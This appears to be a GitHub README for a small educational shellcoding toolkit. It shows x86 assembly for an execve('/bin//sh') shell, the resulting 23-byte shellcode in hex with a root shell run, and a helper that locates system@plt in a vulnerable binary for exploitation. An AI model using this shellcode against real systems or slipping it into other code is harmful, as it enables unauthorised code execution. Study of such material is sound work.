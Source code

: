 # shellcoding
Just a collection of scripts to help out with basic custom shellcoding.  For educational purposes, created with intention of teaching myself assembly a bit more every day.  

- Plans to integrate everything together in the future and pipe to cfuzz.

- Encoding coming eventually? 

##Stringhex
    root@kali:~/shellcoding# stringhex /bin//sh

    Hex for string '/bin//sh' is: \x68\x73\x2F\x2F\x6E\x69\x62\x2F

    //sh: push 0x68732f2f

    /bin: push 0x6e69622f

    [**] Copy and paste the below directly into the .asm.

        push 0x68732f2f

        push 0x6e69622f

##Newasm
    root@kali:~/shellcoding# newasm test

    root@kali:~/shellcoding# cat test.asm

    global _start

    _start:

        xor eax, eax

        push eax

        ;add your payload here

        push 0x68732f2f

        push 0x6e69622f
####The 2 pushes above we added from stringhex /bin//sh
        mov ebx, esp

        push eax

        ;add your additional argument here

        ;mov ecx, esp

        ;push eax

        ;push ecx

        push ebx

        mov ecx, esp

        mov al, 11

        int 0x80
####If we wanted to add arguments (for example for a /bin/cat shellcode) you'd simply add the argument right after it says ";add your additional argument here" and uncomment the 3 lines after it.


##Chex
    root@kali:~/shellcoding# chex test

    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

    Shellcode is 23 bytes long

    root@kali:~/shellcoding# ./test

    # id
    
    uid=0(root) gid=0(root) groups=0(root)

####This automatically compiles your asm file, generates some hex, and gives you the length.

##plt
    root@kali:~# plt vuln -f system

    1 PLT(s) found.

    \x80\x83\x04\x08 <system@plt>
####Quickly finds all plts with just 'plt ./program'.  -f can search for specific plts.

